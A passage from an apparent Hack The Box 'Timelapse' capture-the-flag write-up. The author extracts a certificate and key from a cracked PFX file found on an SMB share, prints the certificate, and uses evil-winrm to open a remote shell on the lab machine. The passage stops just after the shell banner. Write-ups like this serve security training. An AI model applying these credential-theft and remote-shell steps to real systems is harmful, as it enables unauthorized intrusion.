 Now I have an RSA private key file.
Plus, let's extract `certificate(crt)` file.

```bash
┌──(kali㉿kali)-[~/htb/smb_shares/Dev]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
Enter Import Password:


┌──(kali㉿kali)-[~/htb/smb_shares/Dev]
└─$ ls
legacyy_dev_auth.crt      legacyy_dev_auth.pem       winrm_backup.zip
legacyy_dev_auth.key      legacyy_dev_auth.pfx       winrm_backup.zip2john
legacyy_dev_auth.key-enc  legacyy_dev_auth.pfx2john


┌──(kali㉿kali)-[~/htb/smb_shares/Dev]
└─$ file legacyy_dev_auth.crt
legacyy_dev_auth.crt: ASCII text


┌──(kali㉿kali)-[~/htb/smb_shares/Dev]
└─$ cat legacyy_dev_auth.crt
Bag Attributes
    localKeyID: 01 00 00 00 
subject=CN=Legacyy
issuer=CN=Legacyy
-----BEGIN CERTIFICATE-----
MIIDJjCCAg6gAwIBAgIQHZmJKYrPEbtBk6HP9E4S3zANBgkqhkiG9w0BAQsFADAS
MRAwDgYDVQQDDAdMZWdhY3l5MB4XDTIxMTAyNTE0MDU1MloXDTMxMTAyNTE0MTU1
MlowEjEQMA4GA1UEAwwHTGVnYWN5eTCCASIwDQYJKoZIhvcNAQEBBQADggEPADCC
AQoCggEBAKVWB6NiFkce4vNNI61hcc6LnrNKhyv2ibznhgO7/qocFrg1/zEU/og0
0E2Vha8DEK8ozxpCwem/e2inClD5htFkO7U3HKG9801NFeN0VBX2ciIqSjA63qAb
YX707mBUXg8Ccc+b5hg/CxuhGRhXxA6nMiLo0xmAMImuAhJZmZQepOHJsVb/s86Z
7WCzq2I3VcWg+7XM05hogvd21lprNdwvDoilMlE8kBYa22rIWiaZismoLMJJpa72
MbSnWEoruaTrC8FJHxB8dbapf341ssp6AK37+MBrq7ZX2W74rcwLY1pLM6giLkcs
yOeu6NGgLHe/plcvQo8IXMMwSosUkfECAwEAAaN4MHYwDgYDVR0PAQH/BAQDAgWg
MBMGA1UdJQQMMAoGCCsGAQUFBwMCMDAGA1UdEQQpMCegJQYKKwYBBAGCNxQCA6AX
DBVsZWdhY3l5QHRpbWVsYXBzZS5odGIwHQYDVR0OBBYEFMzZDuSvIJ6wdSv9gZYe
rC2xJVgZMA0GCSqGSIb3DQEBCwUAA4IBAQBfjvt2v94+/pb92nLIS4rna7CIKrqa
m966H8kF6t7pHZPlEDZMr17u50kvTN1D4PtlCud9SaPsokSbKNoFgX1KNX5m72F0
3KCLImh1z4ltxsc6JgOgncCqdFfX3t0Ey3R7KGx6reLtvU4FZ+nhvlXTeJ/PAXc/
fwa2rfiPsfV51WTOYEzcgpngdHJtBqmuNw3tnEKmgMqp65KYzpKTvvM1JjhI5txG
hqbdWbn2lS4wjGy3YGRZw6oM667GF13Vq2X3WHZK5NaP+5Kawd/J+Ms6riY0PDbh
nx143vIioHYMiGCnKsHdWiMrG2UWLOoeUrlUmpr069kY/nn7+zSEa2pA
-----END CERTIFICATE-----
```

Using these `legacyy_dev_auth.crt` and `legacyy_dev_auth.key` files, I can open a shell with `evil-winrm`.

```bash
┌──(kali㉿kali)-[~/htb/smb_shares/Dev]
└─$ evil-winrm -i timelapse.htb -S -k legacyy_dev_auth.key -c legacyy_dev_auth.crt

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine               

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                 

Warning: SSL enabled

```